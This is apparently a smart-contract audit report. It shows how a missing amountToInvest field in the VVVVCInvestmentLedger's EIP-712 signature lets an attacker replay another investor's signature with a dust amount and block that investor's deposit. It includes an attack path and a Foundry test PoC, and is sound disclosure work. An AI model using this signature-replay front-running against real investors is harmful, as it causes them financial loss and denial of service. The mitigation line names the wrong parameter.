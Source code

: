 Scruffy Linen Badger

Medium

# Missing `amountToInvest` param in the EIP-712 signature of `VVVVCInvestmentLedger::INVESTMENT_TYPEHASH` allows for malicious users to grief DoS investors

### Summary

Currently, the `VVVVCInvestmentLedger` contract allows users to get an off-chain signature of the contract's `InvestParams`, and use it to transfer tokens to the ledger. However, the current implementation does not sign the `amountToInvest` parameter, which allows malicious users to front-run investors with dust amounts and DoS them from making their actual deposits. In a fast-paced eco-system of making investments per round, this can significantly impact trustworthy investors, as the `investmentRoundLimit` could quickly get filled, preventing them from taking an active part in the investment cycle.

### Root Cause

In [VVVVCInvestmentLedger::INVESTMENT_TYPEHASH](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol#L22), the protocol hashes the `InvestParams` structure and uses it for signature comparison, however, it fails to sign the `amountToInvest` value, allowing for malicious actors to DoS trustworthy investors by front-running their `invest(...)` requests with their signature. Malicious users can provide dust amounts as the `amountToInvest`, which in turn can lead to [this](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol#L176) check to fail, preventing the trustworthy user from properly investing.

### Internal pre-conditions

1. Alice and Bob (malicious investor) invest in the current investment round which has a 2210 USDC `investmentRoundLimit`.
2. A third user Charlie also invests in the protocol.
3. All users have 1000 USDC `kycAddressAllocation`.


### External pre-conditions

N/A

### Attack Path

1. Initially Bob and Alice invest 200 USDC.
2. Bob and Alice see that there are 800 USDC to fill the round, and they both have 800 USDC left to reach their limits.
4. Alice sends her transaction, however, Bob knows that he can front-run her and sends a transaction using Alice's signature, but with an amount of `1`.
5. In the same block Bob also sends another transaction for 800 USDC (using his signature), and Charlie steps up to also invest 1000 USDC.
6. Alice's transaction reverts as her `kycAddressAllocation` limit is reached due to her sending 800 USDC and Bob depositing `1` in her place.
8. Alice tries to send the transaction with a corrected amount trying to max out her limit, but it is again reverted due to the `investmentRoundLimit` being reached.

### Impact

1. Trustworthy investors could be griefed and suffer DoS leaving them unable to fully participate in investment rounds.
2. The protocol's integrity suffers as users are unable to use their platform as intended.

### PoC

For the sake of the test, I've set the fees to be 0 for easier calculations. Also, the provided PoC is set to prove that user investments could be influenced by other users. Add the following test to `VVVVCInvestmentLedgerFuzzTests.sol` and run with `forge test --mt testFrontRunning`.

```solidity
function testFrontRunning() public {
        address aliceKycAddress = address(1);
        address bobKycAddress = address(2);
        address charlieKycAddress = address(3);

        deal(address(PaymentTokenInstance), aliceKycAddress, 1000e6);
        deal(address(PaymentTokenInstance), bobKycAddress, 1001e6);
        deal(address(PaymentTokenInstance), charlieKycAddress, 1000e6);

        uint256 investmentRound = 1;
        uint256 investmentRoundLimit = 2210e6;
        uint256 investmentRoundStartTimestamp = block.timestamp;
        uint256 investmentRoundEndTimestamp = block.timestamp + 1 days;
        address paymentTokenAddress = address(PaymentTokenInstance);
        uint256 kycAddressAllocation = 1000e6;
        uint256 deadline = block.timestamp + 1 hours;
        feeNumerator = 0; // no fee for the sake of this test

        // Alice invests 200 USDC
        VVVVCInvestmentLedger.InvestParams memory aliceParams = VVVVCInvestmentLedger.InvestParams({
            investmentRound: investmentRound,
            investmentRoundLimit: investmentRoundLimit,
            investmentRoundStartTimestamp: investmentRoundStartTimestamp,
            investmentRoundEndTimestamp: investmentRoundEndTimestamp,
            paymentTokenAddress: paymentTokenAddress,
            kycAddress: aliceKycAddress,
            kycAddressAllocation: kycAddressAllocation,
            amountToInvest: 200e6,
            exchangeRateNumerator: exchangeRateNumerator,
            feeNumerator: feeNumerator,
            deadline: deadline,
            signature: bytes("placeholder")
        });

        aliceParams.signature = getEIP712SignatureForInvest(ledgerDomainSeparator, investmentTypehash, aliceParams);
        investAsUser(aliceKycAddress, aliceParams);

        // Bob invests 200 USDC
        VVVVCInvestmentLedger.InvestParams memory bobParams = VVVVCInvestmentLedger.InvestParams({
            investmentRound: investmentRound,
            investmentRoundLimit: investmentRoundLimit,
            investmentRoundStartTimestamp: investmentRoundStartTimestamp,
            investmentRoundEndTimestamp: investmentRoundEndTimestamp,
            paymentTokenAddress: paymentTokenAddress,
            kycAddress: bobKycAddress,
            kycAddressAllocation: kycAddressAllocation,
            amountToInvest: 200e6,
            exchangeRateNumerator: exchangeRateNumerator,
            feeNumerator: feeNumerator,
            deadline: deadline,
            signature: bytes("placeholder")
        });

        bobParams.signature = getEIP712SignatureForInvest(ledgerDomainSeparator, investmentTypehash, bobParams);
        investAsUser(bobKycAddress, bobParams);

        // Alice tries to use up her remaining 800 USDC, however Bob front runs her using her signature
        VVVVCInvestmentLedger.InvestParams memory bobParamsFrontRunning = VVVVCInvestmentLedger.InvestParams({
            investmentRound: investmentRound,
            investmentRoundLimit: investmentRoundLimit,
            investmentRoundStartTimestamp: investmentRoundStartTimestamp,
            investmentRoundEndTimestamp: investmentRoundEndTimestamp,
            paymentTokenAddress: paymentTokenAddress,
            kycAddress: aliceKycAddress,
            kycAddressAllocation: kycAddressAllocation,
            amountToInvest: 1,
            exchangeRateNumerator: exchangeRateNumerator,
            feeNumerator: feeNumerator,
            deadline: deadline,
            signature: bytes("placeholder")
        });
        bobParamsFrontRunning.signature = aliceParams.signature;
        investAsUser(bobKycAddress, bobParamsFrontRunning);

        // Alice's transaction reverts because she will need to send 800 - 1 to be able to invest due to the kyc limit
        aliceParams.amountToInvest = 800e6;
        vm.startPrank(aliceKycAddress);
        PaymentTokenInstance.approve(address(LedgerInstance), aliceParams.amountToInvest);
        vm.expectRevert(VVVVCInvestmentLedger.ExceedsAllocation.selector);
        LedgerInstance.invest(aliceParams);
        vm.stopPrank();

        // Bob now sends his own transaction with the proper amount
        bobParams.amountToInvest = 800e6;
        investAsUser(bobKycAddress, bobParams);

        // Charlie invests 1000 USDC
        VVVVCInvestmentLedger.InvestParams memory charlieParams = VVVVCInvestmentLedger.InvestParams({
            investmentRound: investmentRound,
            investmentRoundLimit: investmentRoundLimit,
            investmentRoundStartTimestamp: investmentRoundStartTimestamp,
            investmentRoundEndTimestamp: investmentRoundEndTimestamp,
            paymentTokenAddress: paymentTokenAddress,
            kycAddress: charlieKycAddress,
            kycAddressAllocation: kycAddressAllocation,
            amountToInvest: 1000e6,
            exchangeRateNumerator: exchangeRateNumerator,
            feeNumerator: feeNumerator,
            deadline: deadline,
            signature: bytes("placeholder")
        });

        charlieParams.signature = getEIP712SignatureForInvest(ledgerDomainSeparator, investmentTypehash, charlieParams);
        investAsUser(charlieKycAddress, charlieParams);

        // Alice sends a new transaction with the proper amount but gets reverted again, as the round limit is reached
        aliceParams.amountToInvest = 800e6 - 1;
        vm.startPrank(aliceKycAddress);
        PaymentTokenInstance.approve(address(LedgerInstance), aliceParams.amountToInvest);
        vm.expectRevert(VVVVCInvestmentLedger.ExceedsAllocation.selector);
        LedgerInstance.invest(aliceParams);
        vm.stopPrank();
    }
    
     // Alice could still invest as there are ~10 USDC left in the round, but that is way less than the 800 USDC she was originally trying to invest
 ```

### Mitigation

Add the `investParams` attribute to EIP-712 signature, which will not prevent front-running, but will make it expensive for attackers, as they will end up having to make the actual investment for the user.